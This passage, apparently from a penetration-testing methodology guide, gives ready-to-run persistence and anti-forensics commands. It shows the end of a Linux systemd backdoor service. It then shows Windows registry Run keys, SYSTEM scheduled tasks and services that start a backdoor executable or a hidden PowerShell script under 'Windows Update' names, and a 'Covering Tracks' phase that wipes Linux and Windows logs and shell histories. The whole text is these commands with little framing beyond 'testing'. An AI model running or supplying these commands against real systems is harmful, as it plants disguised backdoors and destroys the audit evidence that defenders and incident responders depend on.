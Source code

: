 ```bash

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
```

#### Windows Persistence
```powershell
# Registry Run key
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Windows Update" /t REG_SZ /d "C:\Windows\System32\backdoor.exe"

# Scheduled task
schtasks /create /tn "Windows Update Check" /tr "powershell.exe -WindowStyle Hidden -File C:\backdoor.ps1" /sc onlogon /ru SYSTEM

# Service creation
sc create "WindowsUpdate" binPath= "C:\Windows\System32\backdoor.exe" start= auto
sc start "WindowsUpdate"
```

---

## Phase 7: Covering Tracks

*Goal: Remove evidence of testing activities*

### 7.1 Log Manipulation

#### Linux Log Clearing
```bash
# Clear auth logs
> /var/log/auth.log
> /var/log/secure

# Clear system logs
> /var/log/syslog
> /var/log/messages

# Clear command history
history -c
> ~/.bash_history
unset HISTFILE

# Clear Apache logs
> /var/log/apache2/access.log
> /var/log/apache2/error.log
```

#### Windows Log Clearing
```powershell
# Clear event logs
wevtutil cl Application
wevtutil cl Security
wevtutil cl System

# Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath -ErrorAction SilentlyContinue

# Clear specific event IDs
wevtutil cl "Windows PowerShell"
```
